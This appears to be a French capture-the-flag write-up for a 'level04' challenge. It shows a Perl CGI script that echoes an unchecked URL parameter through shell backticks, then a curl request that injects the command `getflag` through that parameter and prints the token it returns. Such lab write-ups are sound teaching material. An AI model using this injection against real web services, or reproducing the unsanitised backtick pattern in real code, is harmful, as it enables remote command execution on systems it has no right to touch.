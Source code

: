 On trouve dans le dossier home un fichier perl nommé **level04.pl** contenant le code suivant:
<pre><code>#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						// Permet de mettre un parametre
print "Content-type: text/html\n\n";	// Affiche sous forme HTLM
sub x {									// Fonction x
  $y = $_[0];							// Prend le premier parametre
  print `echo $y 2>&1`;					// Echo le parametre
}
x(param("x"));							// Appelle la fonction</code></pre>


On comprend donc que le perl va s'executer si l'on va sur la page IP:4747,
de plus il prend un parametre (grace a l'url) x, qu'il va echo.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

On se rend compte qu'il n'y a pas de verification spéciale par rapport au paramètre, nous essayons donc d'injecter une commande:

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> On echappe les **`** pour éviter de mettre le retour de la commande **getflag**, ce que l'on cherche c'est que la commande s'execute au moment du echo